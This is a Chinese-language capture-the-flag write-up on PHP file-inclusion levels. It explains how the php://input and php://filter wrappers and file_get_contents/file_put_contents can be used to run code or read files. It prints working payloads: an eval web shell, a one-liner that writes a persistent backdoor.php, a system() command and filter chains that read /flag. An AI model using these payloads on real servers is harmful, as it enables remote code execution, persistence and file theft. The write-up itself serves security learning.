 ### Level 7  php://input 协议

> php://input - 可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分，在enctype="multipart/form-data" 的时候php://input 是无效的。常用于执行代码。 依赖：allow_url_include:On
>
> php://input做为include的直接参数时，如题，php执行时会将post内容当作文件内容，要注意，php://input不支持post提交，其请求的参数格式是原生(Raw)的内容，无法使用hackbar提交，因为hackbar不支持raw方式  

题目已经提供对应答案：

```php
<?php eval($_GET['ctf']); ?> /* 间接代码执行 */ 

<?php fputs(fopen('backdoor.php','w'),'<?php eval($_POST["ctf"]); ?>'); ?> /* 生成后门木马 */ 

<?= system('tac flag.???');?> /* 直接命令执行 */  

```

### Level 8 php://filter_过滤器&字符串过滤器

GET：`?wrappers=filter/string.rot13/resource=/flag`

### Level 9 php://filter_转换过滤器

GET：`?wrappers=filter/convert.base64-encode/resource=flag.php`

### Level 10 文件系统函数_file_get_contents()

我们常见的文件包含题目的大多数考点主要集中在类似 include() 函数（这里的类似强调的是 incdlue、require、include_once、require_once）的调用上，除开直接的文本包含，更多还涉及到了一些封装协议(wrappers)的使用，比如 file 协议、data 协议、php 协议等等。

早在我们之前提及该部分对应文档 【支持的协议和封装协议】https://www.php.net/manual/zh/wrappers.php 时，其中的这样一句话就有强调 “PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。”这些函数的特定 —— 【文件系统·文件系统函数】https://www.php.net/manual/zh/book.filesystem.php。

所以在文件包含的题目中，除了include类型函数，其他文件系统函数也可以用来考察协议方面的内容，比如 file_put_contents(), file_get_contents(), file(), readfile() .etc。

`file_get_contents` 算是标准的Read行为，作为文件函数，他同样支持封装协议，由于题目要求输出的内容不能含有 flag 关键字，可以尝试字符串或者转换过滤器：

```php
php://filter/string.toupper/resource=/flag （正则并没有匹配大小写）
php://filter/string.rot13/resource=/flag
php://filter/read=convert.base64-encode/resource=/flag
...
```

### Level 11 文件系统函数_file_put_contents()

file_put_contents() 函数(https://www.php.net/manual/zh/function.file-put-contents.php) 这将对应过滤器中的Write方法，用于将数据写入文件。

`file_put_contents($filename,$data)`其中`filename` 是要被写入数据的文件名 —— 如果 filename 是 "**scheme://...**" 的格式，则被当成一个 URL，PHP 将搜索协议处理器（也被称为封装协议）来处理此模式。
